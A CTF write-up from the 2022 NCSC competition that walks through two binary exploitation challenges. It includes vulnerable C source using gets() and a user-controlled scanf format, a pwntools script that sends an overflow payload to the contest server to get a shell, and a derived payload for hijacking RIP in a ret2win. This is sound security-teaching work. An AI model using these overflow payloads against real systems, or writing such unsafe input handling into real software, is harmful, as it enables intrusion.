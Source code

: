 # National Cyber Security Congress

NCSC, organized by Securinets, hosted an 8 hours CTF, started the 29th of January at 23:00 (GMT +1). <br/>
I've participated in the CTF with [Aziz Zribi](https://www.facebook.com/Aziz.Zribi.Z), [Zakaria Soussi](https://www.facebook.com/zakaria.soussi.12) & [Anas Chaibi](https://www.facebook.com/chanas07) as a team. We ranked the 7th out of 52 teams.

<br/>
<hr>

* ### Binary exploitation

  <ol type=1>
    <li>babypwn</li>
  <br/>
  That's a pretty basic challenge, here is the source code:
  <details>
  <summary>Show</summary>

  ```C
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  void init_buffering() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
  }
  int main(){
    int x = 0x41414141;
    char name[20];
    init_buffering(); // ignore this line
    puts("what's your name ?");
    gets(name);
    if(x != 0x41414141) {
      execve("/bin/sh", 0, 0);
    }
    return 0;
  }
  ```
  </details>
  We only need to overwrite `x` value in memory so we can just send a payload long enough to overwrite it. Here is a script for this challenge:

  <br/>
  <details>
  <summary>Show</summary>

  ```python
  from pwn import *

  # nc 52.188.108.186 1239
  conn = remote('52.188.108.186',1239)

  conn.send(b'azertyuiopqsdfghjklmwxcvbnaazzeerrttyyuuiiooppmmllkkjjhhggffddsqqwwxxccv' )

  conn.interactive()
  ```
  </details>

  And we get our shell & flag.
    <li>Freedom</li>
    <br/>
  For this challenge, we get our source code:
    <details>
  <summary>Show</summary>

  ```C
  #include<stdio.h>
  #include<stdlib.h>
  #include<string.h>
  void win(){
    execve("/bin/sh", 0, 0);
  }
  void strip(char *format) {
    format[strcspn(format, "\n")] = 0;
  }
  void init_buffering() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
  }
  int main(){
    init_buffering();
    puts("Freedom is all I want! you are free to choose your format specifier !");
    char buffer[60];
    char format[20];
    printf("> ");
    read(0, format, 20);
    strip(format);
    puts("Now, do what you want!");
    scanf(format,buffer);
    puts("good bye !");
    return 0;
  }
  ```
  </details>
That's a ret2win, we have control on the `scanf`'s format & we'll be writing into `buffer`. We start gdb to do some tests, you can find the binary [here](https://github.com/M0ngi/CTF-Writeups/blob/main/2022/NCSC/pwn/freedom). We need to get our win address.
  
  
  <p align="center">
    <img src="/2022/NCSC/img/freedomgdb.png"><br/>
  </p>
      
  Now, we need to get the length of our payload. Since we have control over the format, we'll be reading a string using `%s` & we'll use this pattern: `azertyuiopqsdfghjklmwxcvbnaazzeerrttyyuuiiooppmmllkkjjhhggffddsqqwwxxccvvbbnn`.
      
  <p align="center">
    <img src="/2022/NCSC/img/freedomgdb2.png"><br/>
  </p>
  
  And we get a segmentation fault:
  
  <p align="center">
    <img src="/2022/NCSC/img/freedomgdb3.png"><br/>
  </p>
  
  Our RIP: `0x6e6e626276 ('vbbnn')`, we now know the proper payload to change the RIP: `azertyuiopqsdfghjklmwxcvbnaazzeerrttyyuuiiooppmmllkkjjhhggffddsqqwwxxccv`
  </ol>
